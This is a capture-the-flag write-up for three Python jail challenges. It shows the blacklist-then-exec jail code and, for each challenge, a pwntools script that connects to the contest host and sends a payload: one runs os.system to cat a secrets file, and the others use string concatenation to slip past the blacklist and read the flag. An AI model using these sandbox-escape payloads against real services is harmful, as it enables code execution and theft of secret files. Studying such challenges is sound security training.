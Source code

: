 # pyjails

## Challenge

All 3 pyjails allow for exeution of python on a remote server but with restricted words.

```py
userinput = input('>> ')
blacklist = [...] # different for each pyjail
for illegal in blacklist:
    if illegal in userinput.lower():
        raise Exception()
else:
    exec(userinput)
```

## Solve 1

```py
# blacklist = ['eval', 'exec', 'rm', 'kill', '+']

from pwn import *

r = remote('pyjail.ctf.maplebacon.org', 32003)
r.setLevel('DEBUG')

r.recvuntil(">> ")
r.sendline('import os;os.system("cat secrets/flag/topsecret.txt")')
r.recv()

# pyjail1: maple{welc0m3_to_the_w0rlD_oF_cod3_j4ilz}
```

## Solve 2

```py
# blacklist = ['eval', 'exec', 'import', 'os', '=', 'txt', 'read', 'dict', ';', ':', '\n', 'flag', 'subprocess', 'write', 'input', '_']

# ...
r.recvuntil(">> ")
r.sendline("print([i for i in open('fla'+'g.t'+'xt')])")
r.recv()

# maple{pyth0n_0n3_lInerz_UwU}
```

## Solve 3

```py
# blacklist = ['eval', 'exec', 'import', 'os', '=', 'txt', 'read', 'dict', ';', ':', '\n', 'flag', 'subprocess', 'write', 'input', '_', 'getattr', 'globals', 'update']


# ...
r.recvuntil(">> ")
r.sendline("print([i for i in open('fla'+'g.t'+'xt')])")
r.recv()

# pyjail3: maple{Did_u_kn0w_that_d0lph1ns_sl33p_with_one_eye_open}
```